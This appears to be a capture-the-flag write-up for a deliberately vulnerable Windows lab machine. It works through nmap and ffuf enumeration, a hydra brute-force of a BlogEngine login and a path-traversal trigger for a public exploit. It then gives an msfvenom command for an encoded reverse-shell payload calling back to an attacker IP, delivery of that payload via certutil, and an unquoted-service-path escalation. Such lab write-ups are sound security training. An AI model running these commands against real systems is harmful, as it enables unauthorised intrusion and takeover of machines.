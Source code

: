 ![image](https://user-images.githubusercontent.com/87468669/208858721-852ee5c2-b27e-4d83-a29c-a0c56513edfa.png)

First we start with nmap scan

`nmap -sC -sV -T4 -oN nmap.txt <IP`

```
# Nmap 7.93 scan initiated Tue Dec 20 17:26:57 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 10.10.213.54
Nmap scan report for 10.10.213.54
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2022-12-20T16:28:45+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2022-12-20T16:28:42+00:00
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2022-12-19T16:25:26
|_Not valid after:  2023-06-20T16:25:26
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 20 17:28:46 2022 -- 1 IP address (1 host up) scanned in 108.50 seconds
```

Nice we got port 80 http and port 3389. Enumerating port 80 first. Checking the IP on browser.

![image](https://user-images.githubusercontent.com/87468669/208859381-9cac2b09-83ab-4ad8-ac6f-ec8ff17f0dd8.png)
 
we got the default home page, just a greeting from the clown penny wise... check the source page.

![image](https://user-images.githubusercontent.com/87468669/208860000-2a54e0ec-54ea-4080-94d9-48f4f2d73576.png)

Checking the source page we can see it is running a blogengine 3.3.6.0 cms... Bursting hidden directories next

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/HackPark]                                                                                                       [10/11]
└─$ ffuf -u "http://10.10.155.116/FUZZ" -w /usr/share/wordlists/dirb/common.txt -fc 403,500 -e .txt,.php,.zip,.bak                                                    
                                                                                                                                                                      
        /'___\  /'___\           /'___\                                                                                                                               
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                               
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                              
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                              
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                               
          \/_/    \/_/   \/___/    \/_/                                                                                                                               
                                                                                                                                                                      
       v1.5.0 Kali Exclusive <3                                                                                                                                       
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.155.116/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt .php .zip .bak 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403,500
________________________________________________

                        [Status: 200, Size: 8997, Words: 1588, Lines: 157, Duration: 233ms]
account                 [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 210ms]
ADMIN                   [Status: 302, Size: 173, Words: 6, Lines: 4, Duration: 2584ms]
Admin                   [Status: 302, Size: 173, Words: 6, Lines: 4, Duration: 2649ms]
admin                   [Status: 302, Size: 173, Words: 6, Lines: 4, Duration: 2722ms]
archive                 [Status: 200, Size: 8325, Words: 1413, Lines: 148, Duration: 258ms]
Archive                 [Status: 200, Size: 8325, Words: 1413, Lines: 148, Duration: 214ms]
archives                [Status: 200, Size: 8326, Words: 1413, Lines: 148, Duration: 233ms]
aspnet_client           [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 215ms]
contacto                [Status: 200, Size: 9936, Words: 1725, Lines: 166, Duration: 3037ms]
contact                 [Status: 200, Size: 9935, Words: 1725, Lines: 166, Duration: 3232ms]
:: Progress: [23070/23070] :: Job [1/1] :: 182 req/sec :: Duration: [0:03:11] :: Errors: 0 ::

```

checking the /admin directory first.

![image](https://user-images.githubusercontent.com/87468669/208860971-09695e3a-eefa-458e-b304-7db188f0c578.png)

we have a login page. Try to bypass the login page but failed... Let's bruteforce the login page use hydra. First we need to capture the requests using burp suite.

![image](https://user-images.githubusercontent.com/87468669/208863944-399f9108-af59-48b0-9b12-c82ff6d89d65.png)

now lt's brutforce th login page using hydra

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/HackPark]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.68  http-form-post "/Account/login.aspx?ReturnURL=%2fadmin:__VIEWSTATE=kpQeWMvbPipRcrvzvHzgn0zvV0PCRYZfH%2FvUKCZRsHUGShZHUBvtv%2F67hkZWfKeTAIXMXE968sCuuYkcxW7upR38Ros14NgZ3GxFxsecyKgx1A5yBARHNfLBxzSkEirZyG3Oq0xdYwh6JP1JOlFqe9ye7phAM%2BDSvO7fqrvN%2Fi4WY2F4&__EVENTVALIDATION=6Tz6HQrM1xgvnC8anXV0XBcOO%2FFML%2FFqI5CVMj1%2Fniy3UhMdefOO7hCxerPk%2BkyBY5gpyIxN%2Fv6Rsy8ae2DaIQ7s73YjR1q194SejKVYNPmCcIgmxa8H0%2BYyem5BFEDuLRAxt9kkZUjBFPppYHvtSyZwz0bREYvSd%2FVop3%2FY8uEp7sgH&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

```

![image](https://user-images.githubusercontent.com/87468669/208906625-99eed488-7a12-4714-8b1b-5a7ab5fe583f.png)

now let's login

![image](https://user-images.githubusercontent.com/87468669/208907883-08ba3fd0-a830-440c-8eac-7f43c886dd55.png)

as remembered, the web app is running blogengine 3.3.6, let's search for public exploit. using searchsploit 

![image](https://user-images.githubusercontent.com/87468669/208908350-8ad5c3b2-02fd-45d8-8ad0-c80d6cd619d2.png)

edit the exploit, and follow the instruction in the exploit.

![image](https://user-images.githubusercontent.com/87468669/208908843-f9298759-089e-4f06-abff-b0e2c8607803.png)

Now let's upload the exploit, according to th instruction in the exploit.

![image](https://user-images.githubusercontent.com/87468669/208909278-f7241a4a-d9eb-43aa-a00c-34eed9423dce.png)

ncat listener ready 

![image](https://user-images.githubusercontent.com/87468669/208909613-7cd7b263-0923-4b44-814a-a4e53c7c83c4.png)

let's call the shell through this path `/?theme=../../App_Data/files`

![image](https://user-images.githubusercontent.com/87468669/208910022-e5482c42-6986-4ba9-bb60-a19abc4ad644.png)

Check back on ncat listener and boom got shell...

![image](https://user-images.githubusercontent.com/87468669/208910158-dee9b398-db23-482c-9e0e-7055246486c2.png)

let's get a more stable shell... First using msfvenom to create a revshell payload 

```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.49.111 LPORT=1337 -f exe -o Park.exe
```

After that using certutil.exe to download the payload into the target machine.

![image](https://user-images.githubusercontent.com/87468669/208912969-ddbffd05-6f7f-437b-aad7-e62765c1c7e2.png)

fire up ncat listener and execute the payload in the target machine.

![image](https://user-images.githubusercontent.com/87468669/208913214-a94668d4-7566-4413-b349-82cd90d856f2.png)

now we have a better shell, let's escalte privs by running winpeas.exe

![image](https://user-images.githubusercontent.com/87468669/208914343-ae0b136c-2f0c-47fb-ad5f-a10c50a45c3f.png)

we have an unquoted service path, let's check the directory for abnormal service running

![image](https://user-images.githubusercontent.com/87468669/208914702-ca266a07-723e-474b-9975-2630d4e1b5a4.png)

let's abuse the binary, by creating a payload using msfvenom and replacing the message.exe with the payload 


